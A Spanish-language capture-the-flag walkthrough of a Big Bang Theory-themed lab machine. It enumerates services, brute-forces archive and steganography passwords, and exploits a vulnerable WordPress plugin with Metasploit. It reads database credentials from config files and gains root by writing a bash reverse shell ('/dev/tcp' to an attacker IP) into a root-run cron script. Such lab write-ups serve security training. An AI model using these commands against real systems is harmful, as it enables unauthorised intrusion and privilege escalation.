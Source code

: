 # Maquina Fun Whit Flags:

Primeramente descubrimos la ip de la maquina mediante un escaneo a la subred:

·-$ nmap 10.32.2.0/24

Encontramos la direccion: 10.32.2.46

·-$ IP=10.32.2.46

le hacemos un escaneo de puertos con:

·-$ sudo nmap -sS -vvv -p- -n -Pn –open –min-rate 5000 $IP -oG nmap-report

y nos revela algunos puertos abiertos [21,22,80,1337] a los cuales le hacemos un escaneo un poco mas profundo en busca de posibles vulnerabilidades:

el mismo escaneo también nos devuelve la primera flag:

· FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}

También podemos obersvar el ftp corriendo en el puerto 21 con anonymous permitido y un par de cosas en él, así que empezaremos por aquí.





Vemos varias cosas, como un posible usuario y contraseña para penny (penny96, pennyisafreeloader), probamos por ssh pero no funciona asi que seguimos mirando.

En el directorio howard hay un comprimido .zip con contraseña, probamos fuerza bruta con fcrackzip y el diccionario rockyou.txt:


Encontramos la password: astronaut. El .zip nos devuelve una foto, que tras analizarla nos damos cuenta que contiene algo en ella, pero tambien necesitamos contraseña, por lo que probaremos fuerza bruta nuevamente, esta vez con stegcracker y nuevamente rockyou.txt:


Tenemos la flag de howard!:

· FLAG-howard{b3d1baf22e07874bf744ad7947519bf4}

Ahora echemos un vistazo a la web.

Primeramente encontramos un robots.txt que no nos lleva a nada serio, asi que hacemos fuzzing de directorios con gobuster para listar posibles directorios y archivos:


Tenemos varias vias por donde buscar, pero antes haremos fuzzing tambien en los nuevos directorios (/music, /private y /phpmyadmin) donde encontramos varias cosas, como un wordpress con un panel de login (wp-login.php) dentro de /music/wordpress/:





Luego de intentar varias cosas como injecciones sql o usuarios por defecto, le hacemos un escaneo con wpscan (Wordpress Security Scan) y encontramos un plugin vulnerable que constituye una posible via de acceso y el cual intentaremos explotar con metasploit (plugin: reflex-gallery)

·-$ msfconsole
msf> search reflex
msf> use 0
msf> set RHOST 10.32.2.46
msf> set TARGETURI /music/wordpress
msf> run

Y estamos dentro!
Ahora, husmeando en varios archivos, principalmente en el directorio de wordpress, encontramos en wp-config.php credenciales de la base de datos, como por ejemplo:


// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'footprintsonthemoon' );

/** MySQL database username */
define( 'DB_USER', 'footprintsonthemoon' );

/** MySQL database password */
define( 'DB_PASSWORD', 'footprintsonthemoon1337' );

Primeramente encontramos algunos usuarios de wordpress, nada relevante, seguimos buscando tabla por tabla, y en wp-posts,  encontramos el contenido de varios de estos, donde el último contenía lo siguiente:

La flag de Raj(raz):

· FLAG-raz{40d17a74e28a62eac2df19e206f0987c}

Una vez terminada la enumeración de la base de datos, seguimos en el servidor y encontramos otras credenciales, ahora en /var/www/html/private/db_config.php:

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
$DBUSER = 'bigpharmacorp';
$DBPASS = 'weareevil';

Una vez en la base de datos tenemos lo siguiente:



· FLAG-bernadette{f42d950ab0e966198b66a5c719832d5f}

Siguiendo con las búsquedas, encontramos en el directorio amy, 2 archivos, “notes.txt” y y un binario ejecutable “secretdiary”. La nota tenia el siguiente texto:

This is my secret diary.
The safest way to keep my secrets is inside a compiled executable program.
As soon as I get popular now, that I have friends, I will start adding my secrets here.
I have used a really strong password that it cant be bruteforced.
Seriously it is 18 digit, alphanumeric, uppercase/lowercase with symbols.
And since my program is already compiled, no one can read the source code in order to view the password!

Lo primero que se me ocurre es leer con cat el binario en busca de algo raro, y tenemos lo siguiente:
asd
Tenemos la flag de amy y una posible password, con la cual intente entrar por ssh pero no funcionó, así que seguimos buscando e intentando escalar privilegios.

· FLAG-amy{60263777358690b90e8dbe8fea6943c9}


En el directorio leonard encontramos un script .sh, sobre el cual teniamos todos los permisos “thermostat_set_temp.sh”, al parecer es un cron que ejecuta root:
________________________________________________________________________________
root  2407  0.0  0.0   5436   724 ?   S  14:43   0:00 /bin/bash /home/leonard/thermostat_set_temp.sh
------------------------------------------------------------------------------------------------------------------------

Vamos a insertar una reverse shell en bash y esperar con netcat por el puerto 4444:

Lado de la máquina víctima:
·-$ echo "bash -i >& /dev/tcp/10.8.136.135/4444 0>&1" > thermostat_set_temp.sh

Máquina atacante:
·-$ nc -lnvp 4444

y al cabo de unos 8-10 segundos, somos root:

root@tbbt:/home/leonard#

en ~/ encontramos la flag de leonard:

FLAG-leonard{17fc95224b65286941c54747704acd3e}

y en /home/penny, con ls -a, encontramos el archivo “.FLAG.penny.txt”, con una cadena en aparentemente base64, la intentamos descifrar con:

root@tbbt:/home/leonard# cat .FLAG.penny.txt | base64 -d

y obtenemos la flag de penny:

· FLAG-penny{dace52bdb2a0b3f899dfb3423a992b25}



